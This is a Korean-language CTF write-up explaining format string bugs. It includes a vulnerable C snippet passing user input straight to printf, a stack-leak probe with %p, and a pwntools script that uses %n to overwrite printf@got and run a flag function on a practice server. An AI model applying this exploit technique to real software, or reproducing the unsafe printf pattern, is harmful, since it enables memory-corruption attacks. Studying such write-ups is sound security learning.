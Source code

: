 ## 사전지식  
FSB가 뭘 까요?   
FSB - 포맷스트링 버그 취약점의 줄임말.   
```
int main(int argc,char *argv[])
{
  char buf[256];
  strncpy(buf,argv[1],sizeof(buf));
  printf(buf);
}
```   
이런식으로 포맷스트링을 지정하지 않을 시 FSB취약점을 이용해 임의의 악성코드도 실행할 수 있다.
포맷스트링 = 형식지정자. 우리가 아는 %d, %c ...    
이 중 우리가 모르는 %n라는 포맷스트링 지정자가 있는데, 
```   
char buf[] = "abcde";
printf("%s %n\n",buf,&n);
```    
이 지정자는 출력한 문자열의 개수를 특정 메모리에 써주는 역할을 한다.   
다시 위 코드로 가서, 여기서 문제는 바로 c언어에 포맷스트링 문자를 넣었을 경우 발생하는데,   
음 해보면 알거다.   
쨋든 printf()함수는 포맷스트링 문자를 만나면 스택에 저장된 값을 하나씩 뽑아서 출력해준다.   
ret, ebp, buf...그냥 스택에 있는 값을 접근해 출력할 수 있다.   
그리고 가장 중요한건 만약   
```
printf("ccddeedfads..%x%x%x%n",&n)
``` 
이렇게 된다면 n의 주소에는 여태까지 출력한 문자열의 개수를 덮어쓸 수 있다.   
원하는 개수로 주소를 변조해 들어갈 수 있다는 뜻.   
이걸로 우리가 
## 풀이    
문제에서 FSB를 쓰라고 되어있으니 한번 체크헤보자.   
는 개 쌉소리고 ida로 보면 위 형식처럼 snprintf()/printf()에 포맷스트링문자를 지정하지 않은 채 받는 걸 볼 수 있다.   

```
BBBB %p %p %p %p    
```  
> BBBB (nil) 0x42424242 0x20702520 0x25207025       

자 보면 두 번째 포맷스트링에서 우리가 입력한 BBBB를 주소로 바꾼 값을 포인팅 한다는게 보이지 않는가?    
즉 BBBB는 0x42424242라는 주소가 되고, 그 주소에 %n으로 만들어진 값이 채워지는 것을 알 수 있다.   
예시를 들자면 BBBB %x %n를 했을 때, 4+1(공백)+4(%x)+1 = 10이 %n의 위치, 여기서는 0x42424242에 들어간다.   
다시 ida로 돌아가면 flag함수가 눈에 보인다. 그러면 이 flag함수를 실행하기 위해서 
다른 라이트업을 보면 뭔 printf@got를 overwrite하라는데 우리 늅늅이들은 이딴 소리가 뭔지 모를 것이다.   
간-단하게 설명하자면, 함수 호출 시 plt와 got이 있는데, 우리가 함수를 호출하는 것은 정확히 함수의 plt를 호출하는 것이고,   
이때 got으로 jmp하게 된다. 그럼 got에는 뭐가 있느냐?   
바로 함수의 원래 주소가 들어가 있는 것이다. 이유를 설명하면 길어지니 링크를 달아놓겠다.   
<https://bpsecblog.wordpress.com/2016/03/07/about_got_plt_1/>   
그럼 printf()함수를 더블클릭해 got주소를 알아냈으니, 이제 파이썬 코드를 짜보자!    

```   
from pwn import *

r = remote('ctf.j0n9hyun.xyz',3002)
flag = 0x080485B4
decflag = '%'+str(int(flag)-4)+'x'+'%n'
print_got = 0x804A00c
p = p32(print_got)
p+=decflag
r.sendline(p)
r.interactive()
```   
자 코드 해석 간다!!     
일단 위의 내용을 잘 읽었다면 %n는 출력한 문자열의 개수를 특정메모리에 쓴다고 배웠다.   
일단 printf@got의 주소를 입력해주고 flag주소값의 크기-4만큼 출력하도록 할꺼다.   
그래서 나는 flag주소를 int로 바꾸고 -4, 즉 printf@got의 주소의 크기만큼 빼준값의 크기를 %x사이에 넣고,   
%n을 통해서 printf@got주소에 값을 넣으면 printf()가 실행 될때 flag가 실행 될 것이다.   
DUT!!!!!!!!!     





